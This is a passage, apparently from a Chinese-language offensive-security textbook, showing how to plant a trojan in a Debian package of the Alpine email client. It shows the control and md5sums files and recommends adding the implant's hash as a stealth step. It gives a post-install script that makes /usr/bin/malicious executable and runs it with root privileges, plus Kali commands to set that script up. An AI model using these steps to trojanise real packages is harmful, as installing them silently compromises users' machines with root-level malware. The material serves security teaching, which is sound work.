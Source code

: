 ```

   Conflicts: pine

   Replaces: pine

   Section: mail

   Priority: optional

   Homepage: http://alpine.x10host.com/alpine/

   Description: Text-based email client, friendly for novices but powerful

   Alpine is an upgrade of the well-known PINE email client.  Its name derives

   ...
```

控制文件是所有 Debian 包所必需的，必须包含程序的相关信息。例如，这个文件包含包的名称➊、它支持的硬件架构➋、维护者的姓名➌以及它的依赖项➍。

*md5sums*文件包含安装中包含的文件的 MD5 哈希值。安装过程中不会检查这些哈希值，而是用来验证安装后文件的完整性。如果你愿意，可以添加你恶意植入程序的 MD5 哈希值。虽然不是必需的，但这是一个额外的隐蔽步骤。以下是*md5sum*文件的一部分：

```
55828c20af66f93128c3aefbb6e2f3ae  usr/bin/alpine
b7cf485306ea34f20fa9bc6569c1f749  usr/bin/rpdump

1ab54d077bc2af9fefb259e9bad978ed  usr/bin/rpload
```

*postint*文件在安装完成后运行。Debian 包通常包含*preint*和*postint*文件，这些文件是原始包开发者放置的，用来指示 Debian 包管理器在安装前后需要执行的操作。我们将把激活植入程序的代码添加到*postint*文件中。*postint*文件是一个理想的选择，因为它会在应用程序安装后运行，这样植入过程就不会干扰安装。如果该文件不存在，可以通过文件管理器创建它，或者运行以下命令：

```
kali@kali:~$ touch ~/Desktop/Malware/trojans/mailTrojan/postint
```

打开*postint*文件并复制以下代码段。

```
  #!/bin/sh

  # postint script for Alpine mail Trojan

➊ sudo chmod 2755 /usr/bin/malicious &
➋ sudo./usr/bin/malicious &

  exit 0
```

这将为恶意文件添加执行权限➊，并用 root 权限执行它➋。

接下来，运行以下命令使*postint*文件可执行：

```
kali@kali:~$ chmod +x ~/Desktop/Malware/trojans/mailTrojan/postint
```
